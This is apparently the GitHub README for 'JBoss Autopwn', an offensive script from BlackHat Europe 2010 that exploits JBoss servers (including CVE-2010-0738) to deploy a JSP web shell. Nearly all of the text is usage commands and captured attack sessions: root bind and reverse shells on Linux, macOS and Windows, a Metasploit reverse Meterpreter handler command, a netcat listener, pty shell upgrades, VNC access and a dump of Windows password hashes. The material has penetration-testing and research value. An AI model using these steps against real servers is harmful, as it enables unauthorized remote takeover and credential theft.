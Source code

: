 # jboss-autopwn
JBoss Autopwn as featured at BlackHat Europe 2010 - this version incorporates CVE-2010-0738 the JBoss authentication bypass VERB manipulation vulnerability as discovered by Minded Security
JBoss Autopwn Script
Christian G. Papathanasiou
http://www.spiderlabs.com

INTRODUCTION
============

This JBoss script deploys a JSP shell on the target JBoss AS server. Once 
deployed, the script uses its upload and command execution capability to
provide an interactive session.

Features include:

- Multiplatform support - tested on Windows, Linux and Mac targets
- Support for bind and reverse bind shells
- Meterpreter shells and VNC support for Windows targets

INSTALLATION
============

Dependencies include

- Netcat
- Curl
- Metasploit v3, installed in the current path as "framework3"

USAGE
=====

Use e.sh for *nix targets that use bind_tcp and reverse_tcp

./e.sh target_ip tcp_port

Use e2.sh for Windows targets that can execute Metasploit Windows payloads

/e2.sh target_ip tcp_port


EXAMPLES
========

Linux bind shell:

[root@nitrogen jboss]# ./e.sh 192.168.1.2 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully in /tmp
[x] Now deploying .war file:
http://192.168.1.2:8080/browser/browser/browser.jsp
[x] Running as user...:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[x] Server uname...:
 Linux nitrogen 2.6.29.6-213.fc11.x86_64 #1 SMP Tue Jul 7 21:02:57 EDT 2009 x86_64 x86_64 x86_64 GNU/Linux
[!] Would you like to upload a reverse or a bind shell? bind
[!] On which port would you like the bindshell to listen on? 31337
[x] Uploading bind shell payload..
[x] Verifying if upload was successful...
-rwxrwxrwx 1 root root 172 2009-11-22 19:48 /tmp/payload
[x] You should have a bind shell on 192.168.1.2:31337..
[x] Dropping you into a shell...
Connection to 192.168.1.2 31337 port [tcp/*] succeeded!
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
python -c 'import pty; pty.spawn("/bin/bash")'
[root@nitrogen /]# full interactive shell :-)

Linux reverse shell:

[root@nitrogen jboss]# nc -lv 31337 &
[1] 15536
[root@nitrogen jboss]# ./e.sh 192.168.1.2 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully in /tmp
[x] Now deploying .war file:
http://192.168.1.2:8080/browser/browser/browser.jsp
[x] Running as user...:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[x] Server uname...:
 Linux nitrogen 2.6.29.6-213.fc11.x86_64 #1 SMP Tue Jul 7 21:02:57 EDT 2009 x86_64 x86_64 x86_64 GNU/Linux
[!] Would you like to upload a reverse or a bind shell? reverse
[!] On which port would you like to accept the reverse shell on? 31337
[x] Uploading reverse shell payload..
[x] Verifying if upload was successful...
-rwxrwxrwx 1 root root 157 2009-11-22 19:49 /tmp/payload
Connection from 192.168.1.2 port 31337 [tcp/*] accepted
[x] You should have a reverse shell on localhost:31337..
[root@nitrogen jboss]# jobs
[1]+  Running                 nc -lv 31337 &
[root@nitrogen jboss]# fg 1
nc -lv 31337
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
python -c 'import pty; pty.spawn("/bin/bash")';
[root@nitrogen /]# full interactive tty :-)
full interactive tty :-)

Against MacOS X (bind shell):

[root@nitrogen jboss]# ./e.sh 192.168.1.5 8080 2>/dev/null 
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully in /tmp
[x] Now deploying .war file:
http://192.168.1.5:8080/browser/browser/browser.jsp
[x] Running as user...:
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),8(procview),29(certusers),3(sys),9(procmod),4(tty),5(operator),101(com.apple.sharepoint.group.1),80(admin),20(staff),102(com.apple.sharepoint.group.2)
[x] Server uname...:
 Darwin helium-2.tiscali.co.uk 9.7.1 Darwin Kernel Version 9.7.1: Thu Apr 23 13:52:18 PDT 2009; root:xnu-1228.14.1~1/RELEASE_I386 i386 
[!] Would you like to upload a reverse or a bind shell? bind
[!] On which port would you like the bindshell to listen on? 31337
[x] Uploading bind shell payload..
[x] Verifying if upload was successful...
-rwxrwxrwx 1 root wheel 172 22 Nov 19:58 /tmp/payload
[x] You should have a bind shell on 192.168.1.5:31337..
[x] Dropping you into a shell...
Connection to 192.168.1.5 31337 port [tcp/*] succeeded!
id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),8(procview),29(certusers),3(sys),9(procmod),4(tty),5(operator),101(com.apple.sharepoint.group.1),80(admin),20(staff),102(com.apple.sharepoint.group.2)
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2# id
id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),8(procview),29(certusers),3(sys),9(procmod),4(tty),5(operator),101(com.apple.sharepoint.group.1),80(admin),20(staff),102(com.apple.sharepoint.group.2)
bash-3.2# 

Likewise for the reverse shell.

Windows bind shell:

[root@nitrogen jboss]# ./e2.sh 192.168.1.225 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created succesfully on c:
[x] Now deploying .war file:
[x] Web shell enabled!: http://192.168.1.225:8080/browserwin/browser/Browser.jsp
[x] Server name...:
        Host Name . . . . . . . . . . . . : aquarius
[x] Would you like a reverse or bind shell or vnc(bind)? bind
[x] On which port would you like your bindshell to listen? 31337
[x] Uploading bindshell payload..
[x] Checking that bind shell was uploaded correctly..
[x] Bind shell uploaded: 22/11/2009  18:35            87,552 payload.exe
[x] Now executing bind shell...
[x] Executed bindshell!
[x] Reverting to metasploit....
[*] Started bind handler
[*] Starting the payload handler...
[*] Command shell session 1 opened (192.168.1.2:60535 -> 192.168.1.225:31337)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\chris\Desktop\jboss-4.2.3.GA\server\default\tmp\deploy\tmp8376972724011216327browserwin-exp.war>


Windows reverse shell with a Metasploit meterpreter payload:

[root@nitrogen jboss]# ./e2.sh 192.168.1.225 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully on c:
[x] Now deploying .war file:
[x] Web shell enabled!: http://192.168.1.225:8080/browserwin/browser/Browser.jsp
[x] Server name...:
        Host Name . . . . . . . . . . . . : aquarius
[x] Would you like a reverse or bind shell or vnc(bind)? reverse
[x] On which port would you like to accept your reverse shell? 31337
[x] Uploading reverseshell payload..
[x] Checking that the reverse shell was uploaded correctly..
[x] Reverse shell uploaded: 22/11/2009  18:46            87,552 payload.exe
[x] You now have 20 seconds to launch metasploit before I send a reverse shell back.. ctrl-z, bg then type:
framework3/msfcli exploit/multi/handler PAYLOAD=windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=31337 E
[x] Now executing reverse shell...
[x] Executed reverse shell!
[root@nitrogen jboss]#


In terminal 2:

[root@nitrogen jboss]# framework3/msfcli exploit/multi/handler PAYLOAD=windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=31337 E

[*] Please wait while we load the module tree...
[*] Started reverse handler on port 31337
[*] Starting the payload handler...
[*] Sending stage (719360 bytes)
[*] Meterpreter session 1 opened (192.168.1.2:31337 -> 192.168.1.225:1266)

meterpreter > use priv
Loading extension priv...success.
meterpreter > hashdump
Administrator:500:xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxx:::
chris:1005:xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1004:5cb061f95caf6a9dc7d1bb971b333632:4ac4ee4210529e17665db586df844736:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:293c804ee7b7f93b3919344842b9c98a:::
__vmware_user__:1007:aad3b435b51404eeaad3b435b51404ee:a9fa3213d080de5533c7572775a149f5:::
meterpreter >


Windows VNC shell:

[root@nitrogen jboss]# ./e2.sh 192.168.1.225 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully on c:
[x] Now deploying .war file:
[x] Web shell enabled!: http://192.168.1.225:8080/browserwin/browser/Browser.jsp
[x] Server name...:
        Host Name . . . . . . . . . . . . : aquarius
[x] Would you like a reverse or bind shell or vnc(bind)? vnc
[x] On which port would you like your  vnc shell to listen? 21
[x] Uploading vnc  shell payload..
[x] Checking that vnc shell was uploaded correctly..
[x] vnc shell uploaded: 22/11/2009  19:14            87,552 payload.exe
[x] Now executing vnc  shell...
[x] Executed  vnc shell!
[x] Reverting to metasploit....
[*] Started bind handler
[*] Starting the payload handler...
[*] Sending stage (197120 bytes)
[*] Starting local TCP relay on 127.0.0.1:5900...
[*] Local TCP relay started.
[*] Launched vnciewer in the background.
[*] VNC Server session 1 opened (192.168.1.2:52682 -> 192.168.1.225:21)

[*] VNC connection closed.

[root@nitrogen jboss]#

>>VNC window opens here.. :-)


COPYRIGHT
=========

JBoss Autopwn - A JBoss script for obtaining remote shell access
Created by Christian G. Papathanasiou
Copyright (C) 2009-2011 Trustwave Holdings, Inc.
 
This program is free software; you can redistribute it and/or
modify it under the terms of the GNU General Public License
as published by the Free Software Foundation; either version 2
of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 59 Temple Place - Suite 330, Boston, MA  02111-1307, USA.
